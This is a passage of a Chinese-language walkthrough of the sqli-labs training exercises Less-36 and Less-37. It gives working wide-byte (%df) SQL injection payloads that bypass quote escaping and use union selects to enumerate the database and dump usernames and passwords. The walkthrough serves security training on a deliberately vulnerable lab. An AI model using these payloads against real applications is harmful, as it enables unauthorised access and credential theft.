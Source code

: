 **查看所有账户和密码**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+<br />![](https://img-blog.csdnimg.cn/2020072514572696.png#crop=0&crop=0&crop=1&crop=1&id=DKwmd&originHeight=169&originWidth=1350&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**


# Sqli-labs-Less-37
![](https://img-blog.csdnimg.cn/20200725145935502.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=RpuVb&originHeight=404&originWidth=1034&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
通过界面显示可知需要使用post进行注入，使用burp进行抓包

**查找注入点**<br />uname=a' or 1=1&passwd=admin&submit=Submit<br />查看提醒被转义<br />![](https://img-blog.csdnimg.cn/20200725150706531.png#crop=0&crop=0&crop=1&crop=1&id=BuGwn&originHeight=57&originWidth=523&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

加上%df，报错<br />![](https://img-blog.csdnimg.cn/20200725150834288.png#crop=0&crop=0&crop=1&crop=1&id=thv7a&originHeight=48&originWidth=1299&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释，成功，说明存在注入**<br />uname=a%df' or 1=1#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725150953280.png#crop=0&crop=0&crop=1&crop=1&id=MwLPj&originHeight=68&originWidth=196&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />uname=a%df' order by 2#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725151056525.png#crop=0&crop=0&crop=1&crop=1&id=c1Hfe&originHeight=28&originWidth=325&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
为3时报错，说明存在2列

**查看当前库**<br />uname=a%df' union select 1,database()#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725151230597.png#crop=0&crop=0&crop=1&crop=1&id=c33km&originHeight=95&originWidth=269&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />uname=a%df' union select 1,group_concat(schema_name) from information_schema.schemata#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725151415296.png#crop=0&crop=0&crop=1&crop=1&id=uKXt4&originHeight=86&originWidth=893&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />uname=a%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725151533669.png#crop=0&crop=0&crop=1&crop=1&id=ndbWj&originHeight=74&originWidth=394&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />uname=a%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725151717902.png#crop=0&crop=0&crop=1&crop=1&id=gIaT2&originHeight=98&originWidth=1321&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户和密码**<br />uname=a%df' union select 1,group_concat(concat_ws(0x7e,username,password)) from security.users#&passwd=admin&submit=Submit<br />![](https://img-blog.csdnimg.cn/20200725151906660.png#crop=0&crop=0&crop=1&crop=1&id=aAhP5&originHeight=106&originWidth=1332&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**以此类推爆出所有数据。**
